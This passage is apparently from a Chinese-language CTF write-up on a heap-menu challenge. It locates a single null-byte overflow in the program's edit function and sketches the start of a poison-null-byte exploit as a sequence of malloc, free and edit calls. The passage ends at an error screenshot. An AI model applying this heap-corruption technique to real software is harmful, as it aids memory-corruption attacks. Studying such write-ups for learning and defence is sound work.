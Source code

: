 #### 实践

![](https://static.hack1s.fun/images/2021/12/09/image-20211209124512191.png)

这个文件的保护机制全部都是打开的状态

堆菜单的功能有 malloc、edit、free 和 read

但是这个程序没有泄漏出堆地址和 libc 的地址

栈上保存着一个变量 m_array，用于存储堆申请 chunk 的相关信息

每一项有两个 8 字节组成，user_data 是申请空间的地址，request_size 是申请的大小

![](https://static.hack1s.fun/images/2021/12/09/image-20211209125919505.png)

漏洞在于 edit 函数中

![](https://static.hack1s.fun/images/2021/12/09/image-20211209130229087.png)

这里在执行时首先直接读取申请大小的内容到 user_data 处

```
tmp = read(0, m_array[na].user_data, m_array[na].request_size)

```

read 的返回结果为成功写入的字节

```
m_array[na].user_data[tmp]=0

```

之后这样一个操作在写入的内容后面又加入一个 0

这一个字节也就是溢出的一个 Null 字节

按照上面介绍的原理直接写一下 exploit

```
chunk_A = malloc(0x88)
chunk_B = malloc(0x208)
chunk_C = malloc(0x88)
chunk_D = malloc(0x88)

free(chunk_B)
edit(chunk_A,"a"*0x88)

chunk_B1 = malloc(0xf8)
chunk_B2 = malloc(0xf8)

free(chunk_C)

```

但是这样运行会看到一个熟悉的错误

![](https://static.hack1s.fun/images/2021/12/09/image-20211209152315281.png)
